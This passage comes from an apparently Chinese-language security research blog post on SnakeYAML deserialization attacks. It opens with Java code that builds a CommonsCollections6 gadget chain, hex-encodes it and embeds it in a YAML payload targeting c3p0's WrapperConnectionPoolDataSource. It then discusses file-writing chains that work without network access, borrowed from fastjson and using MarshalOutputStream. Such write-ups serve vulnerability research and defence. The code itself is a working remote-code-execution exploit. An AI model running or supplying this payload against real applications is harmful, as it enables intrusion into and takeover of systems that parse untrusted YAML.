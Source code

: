 ```java
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static String binaryFileToHexString(File file) throws IOException {
        StringBuilder hexString = new StringBuilder();
        try (FileInputStream fis = new FileInputStream(file)) {
            byte[] buffer = new byte[1024];
            int bytesRead;
            while ((bytesRead = fis.read(buffer)) != -1) {
                for (int i = 0; i < bytesRead; i++) {
                    hexString.append(String.format("%02X", buffer[i]));
                }
            }
        }
        return hexString.toString();
    }
    public static void main(String[] args) throws Exception {
        String payload = "HexAsciiSerializedMap1"+GenerateCC6()+"1";
        String poc = aposToQuotes("!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\n" +
                "{\n" +
                "'userOverridesAsString':'"+payload+"'\n" +
                "}");
        System.out.printf(poc);
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

}
```



## 不出网MarshalOutputStream写文件

snakeYaml和fastjson很像，可以借鉴一下fastjson的payload

phith0n师傅做了一张图，copy一下

![image-20250415182117465](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250415182117465.png)

不出网的情况下，fastjson有一条1.2.68+commons-io写文件的链子。在分析这条链子的时候提到OpenJDK>=11能无需commons-io依赖直接写文件的MarshalOutputStream POC

https://godownio.github.io/2024/10/28/fastjson-1.2.68-commons-io-xie-wen-jian/

之所以在fastjson中MarshalOutputStream写文件的链子会比较局限

fastjson在找不到默认无参构造函数的情况下，会遍历所有构造函数，使用lookupParametersName寻找带参数名信息的构造函数
